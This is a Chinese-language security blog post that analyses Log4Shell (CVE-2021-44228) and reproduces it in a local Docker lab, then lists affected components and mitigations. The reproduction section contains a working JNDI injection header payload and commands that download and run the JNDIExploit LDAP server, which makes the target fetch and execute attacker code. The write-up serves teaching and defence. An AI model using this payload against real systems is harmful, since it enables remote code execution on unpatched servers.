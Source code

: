 ```yaml
---
title: Apache Log4j2远程代码执行漏洞（CVE-2021-44228）
date: 2021-12-13 13:38:42
tags:
  - Cyber Security 
  - Apache Log4j2
  - CVE-2021-44228
  - CNVD-2021-95914
description: 
  - Apache Log4j2远程代码执行漏洞分析与复现
categories: 
  - Cyber Security
copyright_author: Tensor
copyright_author_href: https://github.com/ZLLVZY
copyright_url: https://zllvzy.github.io/2021/12/13/Apache%20Log4j2%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/
copyright_info: 此文章版权归Tensor所有，如有转载，请注明来自原作者
cover: https://logging.apache.org/log4j/2.x/images/logo.png

---
```

# Apache Log4j2远程代码执行漏洞（CVE-2021-44228）

## Overview

-   Log4j2?

-   漏洞分析

-   漏洞复现

-   漏洞影响

-   漏洞建议

## Log4j2简介

Log4j是Apache的一个开源项目，使用Log4j可以控制日志信息输送的目的地是控制台、文件、GUI组件，甚至是套接口服务器、NT的事件记录器、UNIX Syslog守护进程等；也可以控制每一条日志的输出格式；通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。

Apache Log4j2 是 Log4j 的升级版本，该版本与之前的 log4j1.x 相比带来了显著的性能提升，并且修复一些存在于 Logback 中固有的问题的同时提供了很多在 Logback 中可用的性能提升。

## 漏洞分析

漏洞细节暂不细说，大致为format方法之中对字符进行按位比较，如果连续的两个字符是${，则进行替换操作，然后传入org.apache.logging.log4j.core.lookup.JndiLookup类的lookup方法，最后导致JNDI注入。

## 漏洞复现

漏洞复现主要参照[https://github.com/christophetd/log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app)

1.   准备Log4j2环境

在这使用docker镜像ghcr.io/christophetd/log4shell-vulnerable-app，并将容器8080端口映射至本机8080。
```
sudo docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
![Log4j2环境](https://s4.ax1x.com/2021/12/13/oO87DI.png)

2.   使用[JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip)来启动测试的LDAP服务器
```
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```
![下载JNDIExploit](https://s4.ax1x.com/2021/12/13/oO8TKA.png)

![EXP:LDAP服务器](https://s4.ax1x.com/2021/12/13/oO848e.png)

3.   JNDI注入，执行命令'touch /tmp/pwned'
```
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
![JNDI注入，执行命令](https://s4.ax1x.com/2021/12/13/oO8hCD.png)

![JNDI注入，执行命令](https://s4.ax1x.com/2021/12/13/oO85gH.png)


4.   查看容器内'/tmp'目录下是否存在'pwned'，
```
docker exec vulnerable-app ls /tmp
```
![查看执行结果](https://s4.ax1x.com/2021/12/13/oO8Ivd.png)

## 漏洞影响

漏洞影响的产品版本包括：Apache Log4j2 2.0 - 2.15.0-rc1

因Log4j2被中间件、Web应用、开发框架广泛应用。以下应用及组件均受影响：
Jedis
Logging
Logstash
HikariCP
Hadoop Hive
ElasticSearch
Apache Solr
Apache Struts2
Apache Flink
Apache Druid
Apache Log4j SLF4J Binding
spring-boot-strater-log4j2
Camel :: Core
JBoss Logging 3
JUnit Vintage Engine
WSO2 Carbon Kernel Core

## 漏洞建议

建议更新Log4j2至安全版本
[https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

建议同时采用如下临时措施进行漏洞防范：

1）添加jvm启动参数-Dlog4j2.formatMsgNoLookups=true；

2）在应用classpath下添加log4j2.component.properties配置文件，文件内容为log4j2.formatMsgNoLookups=true；

3）JDK使用11.0.1、8u191、7u201、6u211及以上的高版本；

4）部署使用第三方防火墙产品进行安全防护。

## 免责声明

本文仅供学习使用，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。



